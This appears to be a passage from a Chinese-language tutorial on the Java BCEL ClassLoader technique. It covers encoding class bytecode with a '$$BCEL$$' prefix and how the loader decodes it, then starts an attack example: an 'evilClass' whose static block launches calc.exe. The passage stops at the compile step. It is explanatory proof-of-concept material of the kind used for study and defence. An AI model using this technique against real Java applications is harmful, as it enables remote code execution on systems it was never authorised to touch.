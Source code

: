 ```java
    }

    ConstantPool cp = clazz.getConstantPool();
    ConstantClass cl = (ConstantClass)cp.getConstant(clazz.getClassNameIndex(), (byte)7);
    ConstantUtf8 name = (ConstantUtf8)cp.getConstant(cl.getNameIndex(), (byte)1);
    name.setBytes(class_name.replace('.', '/'));
    return clazz;
}
```

### BCEL编码

调用bcel编码方法，对class字节码文件进行编码

```
public static String bcelEncode(File classFile) throws IOException {
		return "$$BCEL$$" + Utility.encode(CLASS_BYTES, true);
	}
```

### BCEL解码

解码在com.sun.org.apache.bcel.internal.util.ClassLoader的createClass()方法中

```
int index = class_name.indexOf("$$BCEL$$");
String real_name = class_name.substring(index + 8);
byte[] bytes = Utility.decode(real_name, true);
```

### 攻击示例

我们准备一个evilClass类，比较简单。就是在实例化的时候会执行打开计算器命令

```javapackage BCEL;
public class evilClass {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    /*
    public static void main(String[] args) {
        evilClass evil = new evilClass();
    }
    */
}
```

把它编译为class字节码
